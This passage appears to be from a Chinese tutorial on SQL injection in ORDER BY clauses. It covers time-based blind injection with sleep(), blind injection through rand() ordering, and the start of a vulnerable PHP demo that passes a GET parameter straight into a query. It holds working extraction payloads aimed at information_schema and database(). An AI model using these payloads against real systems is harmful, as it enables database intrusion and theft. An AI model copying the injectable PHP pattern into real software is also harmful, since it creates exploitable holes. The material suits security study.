 ##### 基于时间的盲注

order by if(1=1,1,sleep(1))
结果：

```
select * from ha order by if(1=1,1,sleep(1)); #正常时间
select * from ha order by if(1=2,1,sleep(1)); #有延迟
```

同样的，我们可以在上面的payload中替换我们想要的语句
比如：

```
order by if((select ascii(substr(table_name,1,1)) from information_schema.tables limit 1)<=128,1,sleep(1))
```

##### 基于rang()的盲注

原理不赘述了，直接看测试结果

```
mysql> select * from ha order by rand(true);
+----+------+
| id | name |
+----+------+
|  9 | NULL |
|  6 | NULL |
|  5 | NULL |
|  1 | dss  |
|  0 | dasd |
+----+------+
mysql> select * from ha order by rand(false);
+----+------+
| id | name |
+----+------+
|  1 | dss  |
|  6 | NULL |
|  0 | dasd |
|  5 | NULL |
|  9 | NULL |
+----+------+
```

可以看到当rang()为true和false时，排序结果是不同的，所以就可以使用rang()函数进行盲注了。 例

```
order by rand(ascii(mid((select database()),1,1))>96)
```

##### order by后的报错注入

这个有点特殊，因为他仅仅是一种特别的情况，不如上面的通用，所以我放在最后来说。

源码：

```
<?php
error_reporting(0);
session_start();
mysql_connect("127.0.0.1", "root", "root") or die("Database connection failed ");
mysql_select_db("sqlidemo") or die("Select database failed");

$order = $_GET['order'] ? $_GET['order'] : 'name';
$sql = "select id,name,price from goods order by $order";
$result = mysql_query($sql);
$reslist = array();
while($row = mysql_fetch_array($result, MYSQL_ASSOC))
{
```